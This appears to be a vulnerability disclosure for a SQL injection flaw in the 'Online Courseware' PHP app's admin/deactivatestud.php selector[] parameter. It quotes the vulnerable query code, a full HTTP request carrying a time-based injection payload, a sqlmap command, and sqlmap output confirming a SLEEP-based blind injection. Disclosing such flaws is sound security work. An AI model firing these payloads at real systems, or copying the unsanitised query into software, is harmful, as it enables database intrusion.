 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/deactivatestud.php selector[] parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/deactivatestud.php 

On this page, selector[] parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/deactivatestud.php):
```
$edittable=$_POST['selector'];
$N = count($edittable);
for($i=0; $i < $N; $i++)
{
	$result = mysqli_query($conn,"UPDATE student SET mem_status='inactive' where id='$edittable[$i]'");
}
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/deactivatestud.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 130
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://localhost
Referer: http://localhost/onlinecourseware/pcci/admin/student.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

bnm=deactivate&selector%5B%5D=22%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```
#### -> sqlmap -r 1.txt (above request package) --batch
### Output:
```
---
Parameter: selector[] (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bnm=deactivate&selector[]=22' AND (SELECT 3654 FROM (SELECT(SLEEP(5)))hSuj)-- KRzs
---
```
